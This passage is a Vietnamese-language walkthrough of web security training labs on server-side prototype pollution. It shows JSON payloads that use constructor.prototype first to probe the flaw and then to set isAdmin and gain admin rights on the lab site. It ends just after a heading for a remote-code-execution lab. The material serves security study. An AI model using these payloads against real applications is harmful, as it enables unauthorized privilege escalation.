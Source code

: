 Tìm một nguồn ô nhiễm nguyên mẫu mà bạn có thể sử dụng để thêm các thuộc tính tùy ý vào toàn cục Object.prototype.
Xác định thuộc tính tiện ích mà bạn có thể sử dụng để nâng cao quyền hạn của mình.
Truy cập bảng quản trị và xóa người dùng carlos.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau:`wiener:peter`

- Quan sát thấy thụt lề JSON dường như không bị ảnh hưởng.

![image](https://hackmd.io/_uploads/SkH0aQrNJg.png)

- sửa đổi yêu cầu để thử làm ô nhiễm nguyên mẫu thông qua constructorthuộc tính:

```javascript
"constructor": {
    "prototype": {
        "json spaces":10
    }
}
```

![image](https://hackmd.io/_uploads/rJ7PCQrN1x.png)

### Khai thác

- Sửa đổi yêu cầu để thử làm ô nhiễm nguyên mẫu bằng `isAdmin` thuộc tính của riêng bạn:

```javascript
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

![image](https://hackmd.io/_uploads/BJusCQr4Jx.png)

![image](https://hackmd.io/_uploads/HJIR07rVJl.png)

![image](https://hackmd.io/_uploads/S1kJyEH4kx.png)

## 9.Lab: Remote code execution via server-side prototype pollution

### Đề bài

![image](https://hackmd.io/_uploads/H1I_kESEkl.png)

### Phân tích

- đăng nhập vào thấy user wiener đã có quyền admin

![image](https://hackmd.io/_uploads/Hk-mlEHEJg.png)
